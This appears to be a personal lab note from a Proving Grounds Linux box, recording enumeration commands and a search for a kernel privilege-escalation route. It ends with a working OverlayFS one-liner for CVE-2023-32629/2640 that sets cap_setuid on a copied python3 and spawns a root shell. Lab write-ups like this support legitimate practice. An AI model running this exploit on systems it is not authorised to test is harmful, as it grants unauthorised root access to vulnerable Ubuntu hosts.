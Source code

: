 Crontab

```
crontab -l
```

![[PG/Linux/attachments/Pasted image 20250711114850.png]]

Netstat 

```
netstat -ano
```

![[PG/Linux/attachments/Pasted image 20250711115011.png]]
- zilch

# Kernel exploit?


```
cat /etc/issue
```

```
uname -r
```

```
arch
```



![[PG/Linux/attachments/Pasted image 20250711115327.png]]

Googled "Ubuntu 20.04.6 LTS \n \l 5.4.0-146-generic exploit for priv esc"
![[PG/Linux/attachments/Pasted image 20250711115231.png]]
- OverlayFS misconfig allows for privesc


Googling a PoC and found this one..their ubuntu version is different from mine though..does it matter?
![[PG/Linux/attachments/Pasted image 20250711115649.png]]

Q....if there's a mismatch between the kernel version and the ubuntu version would the kernel exploit work?
![[PG/Linux/attachments/Pasted image 20250711115535.png]]

Google AI God said no.

There's a one-liner for this [exploit here](https://github.com/ThrynSec/CVE-2023-32629-CVE-2023-2640---POC-Escalation/blob/main/poc.sh) -> created by @liadeliyahu on X

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; python3 -c 'import os;os.setuid(0);os.system(\"/bin/bash\")'"
```
